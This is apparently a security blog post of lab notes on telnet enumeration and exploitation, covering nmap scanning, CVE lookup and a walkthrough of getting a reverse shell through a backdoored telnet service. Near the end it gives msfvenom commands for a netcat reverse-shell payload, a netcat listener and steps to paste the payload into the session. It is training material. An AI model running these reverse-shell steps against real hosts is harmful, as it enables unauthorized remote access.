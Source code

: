 ```yaml
---
layout: single
title: Telnet Enumeration & Exploiting
excerpt: "MTelnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host."
date: 2021-08-31
classes: wide

categories:
  - Blue Team
  - infosec
  - Red Team
tags:
  - Blue Team
  - Red Team
---
```


# What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

# How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

# Connect

```
telnet 10.10.10.3 23
```

# Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

# Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap and the tag -A and -p-.


-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

# Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

https://www.cvedetails.com/
https://cve.mitre.org/
A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

Method Breakdown

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

Connecting to Telnet

You can connect to a telnet server with the following syntax:

    "telnet [ip] [port]"

We're going to need to keep this in mind as we try and exploit this machine.


What is a Reverse Shell?

![751c3a540826d5f4886979c116d95ce7.png](:/113122ea801a42a98e48450877fb6af3)
A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

# start listening for icmp
sudo tcpdump ip proto \\icmp -i tun0

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[] lport=[] R
.RUN <copypaste payload raw>
```
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

First run the netcat command to listen to our lport.
nc -lvp $lport

Then in the telnet session, run the payload generated by msfvenom earlier (basically copy/paste entire last line into the telnet session).
![10e8c10a6b89e90dbc1d9eb78acccc48.png](:/b856c2593d3c477ba136f480f31b8048)
